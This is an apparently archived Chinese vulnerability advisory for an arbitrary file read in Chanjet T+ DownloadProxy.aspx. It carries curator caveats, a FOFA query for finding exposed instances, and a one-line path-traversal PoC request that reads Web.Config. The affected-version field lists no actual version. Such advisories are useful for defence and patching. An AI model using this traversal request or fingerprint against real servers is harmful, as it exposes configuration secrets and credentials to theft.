



# 畅捷通T+ DownloadProxy Path文件读取

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：畅捷通T+；DownloadProxy Path文件读取
- 版本、配置及部署条件：未列版本；进程权限/路径布局
- 认证与权限前提：preload=1条件
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 影响版本重复产品名，缺真版本；与215读取段同接口
- 只有请求行和图片，补响应文本/鉴权及补丁
- fofa误抽语句**，去重复法律免责声明与装饰图

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3OxCCNdncelMJWLjJ-f2qA)

**漏洞简介**

畅捷通 T + 专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。用友畅捷通 T+ DownloadProxy.aspx 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件。  
  

**影响版本**

用友 畅捷通 T+  
用友 畅捷通 T+

**FOFA 语句**

```
app="畅捷通-TPlus"

```



**漏洞复现**

登录页面如下  



POC：

```http
GET /tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config HTTP/1.1

```



**修复建议**

建议升级至安全版本  


**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**公众号**内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金**。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
